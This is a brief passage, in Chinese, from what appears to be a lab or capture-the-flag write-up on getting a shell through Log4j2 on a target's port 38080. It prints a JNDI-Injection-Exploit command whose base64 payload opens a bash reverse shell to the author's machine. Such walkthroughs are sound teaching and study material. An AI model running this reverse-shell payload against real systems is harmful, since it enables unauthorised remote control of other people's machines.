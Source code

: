发现看了两个端口，一个为ssh，一个为38080

## GetShell

这里是打的Log4j2，我只找到了hello路由，确实没找到payload参数来打log4j2

![image-20231116120520660](images/6.png)

```
JNDI-Injection-Exploit-master % java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUwLjEyOC8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.50.128"
```

这里我直接用本地的机器来接受反弹的shell了

![image-20231116120447872](images/7.png)

getshell后查看是否为docker
